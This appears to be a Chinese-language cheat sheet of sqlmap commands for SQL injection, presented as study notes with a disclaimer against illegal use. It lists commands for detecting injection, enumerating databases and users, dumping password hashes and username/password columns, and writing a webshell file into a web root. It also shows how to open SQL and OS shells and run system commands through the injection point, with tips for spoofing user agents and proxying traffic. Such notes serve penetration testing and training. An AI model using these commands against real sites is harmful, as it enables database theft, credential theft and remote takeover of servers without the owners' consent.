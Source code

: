 # sqlmap 笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章**
- [Sqlmap使用教程【个人笔记精华整理】 | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入，使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL --os "Windows"    # 指定操作系统
sqlmap -u URL --dbms mysql --level 3  # 指定数据库类型为 mysql，级别为 3（共 5 级，级别越高，检测越全面）
sqlmap -u URL --dbms mysql --risk 3   # 指定执行测试的风险(1-3, 默认 1) 1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080" # 代理注入测试
sqlmap -u URL --referer "http://www.google.com" # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本
sqlmap -u URL --is-dba  # 判断当前用户是否是 dba
sqlmap -u URL --users   # 列出数据库管理系统用户
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
sqlmap -u URL --passwords   # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all    # 列出所有数据库，所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password。
```

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注：mysql 不支持列目录，仅支持读取单个文件。sqlserver 可以列目录，不能读写文件，但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```
